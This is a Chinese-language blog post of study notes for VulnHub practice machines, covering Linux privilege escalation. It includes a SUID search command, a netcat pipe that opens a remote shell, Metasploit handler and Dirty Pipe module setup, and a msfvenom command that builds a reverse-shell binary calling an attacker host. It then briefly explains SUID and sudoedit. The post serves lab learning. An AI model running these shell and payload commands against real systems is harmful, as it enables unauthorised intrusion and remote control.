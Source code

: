 ```yaml
---
layout:     post
title:      靶机
subtitle:   教程
date:       2024-10-27
author:     白泽
header-img: img/post-bg-books.jpg
catalog: true
tags:
    - vulnhub
    - 靶场
    - 教程
---
```


# 靶机_vulnhub



相关命令：

```
find / -perm -u=s -type f 2>/dev/null
find --查找文件系统中文件和目录
/    --根目录开始查找
-perm   --权限匹配
-u=s    --|-u表示匹配用户权限，=s匹配设置了SUID的文件
2>dev/null  --将标准错误输出重定向到 /dev/null，以避免显示不必要的错误信息
```

```
nc -lvvp port   | nc ip 4444 | /bin/bash | nc ip 5555 --4xxx 输出命令，返回结果
python -m http.server port
msfconle 
use exploit/multi/handler --监听模块
set payload linux/x64/meterpreter/reverse_tcp  --进入监听paylaod
search local_exploit  --搜索漏洞脚本
use exploit/linux/local/cve_2022_0847_dirtypipe  --使用poc
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=<attacker_port> -f elf > payload.elf   --生成木马文件



```



<hr>

相关提权方法

1. 内核漏洞提权  --利用Linux内核漏洞进行提权，如CVE-2016-5195（Dirty Cow） 工具：`linux-exploit-suggester`来找出可能的提权漏洞。
2. SUID提权  --利用设置了SUID位的可执行文件提权 相关命令`find / -perm -u=s -type f 2>/dev/null`
3. 计划任务（Cron Jobs）提权   --通过计划任务
4. sudo滥用提权  --利用配置不当的sudo权限，如无需密码的sudo命令
5. 敏感文件提权  --利用系统中的敏感文件，如`/etc/passwd`和`/etc/shadow`，进行提权
6. 通配符注入提权   --利用命令中的通配符注入来执行提权命令
7. 服务和应用程序配置错误提权   --利用配置错误的服务和应用程序，如NFS的`no_root_squash`选项
8. 使用数据库提权第三方服务提权

<hr>



```
SUID（Set User ID）是一种与文件权限相关的特殊权限位，用于在执行可执行文件时改变进程的有效用户 ID（UID）。当一个可执行文件设置了 SUID 权限，并且被普通用户执行时，该进程将以该文件的所有者（通常是文件的拥有者）的权限运行，而不是执行该进程的用户的权限。

SUID 权限通常用于需要特殊权限和权限访问的程序，以便普通用户可以执行它们而无需直接获取特权。典型的例子是 passwd 命令，它允许用户更改他们的密码。由于更改密码需要访问 /etc/shadow 文件，而该文件对普通用户是不可读的，因此 passwd 命令被设置了 SUID 权限，以便普通用户可以以文件所有者的权限运行该命令。

要设置文件的 SUID 权限，可以使用 chmod 命令并添加数字 4 或通过设置权限位为数字 4 的八进制值（如 4755）来设置 SUID 位。例如，要将文件的权限设置为 -rwsr-xr-x，可以使用以下命令：
`chmod u+s filename`
```

<hr>

```
sudoedit
它的作用是以超级用户权限编辑根目录 (/) 下的文件。
sudoedit 命令是 sudo 工具的一部分，它允许普通用户以超级用户 (root) 的权限编辑指定的文件。在执行 sudoedit 命令之前，用户需要通过输入自己的密码来验证身份，并获得执行特权操作的授权。

-s 选项用于以安全模式编辑文件。
```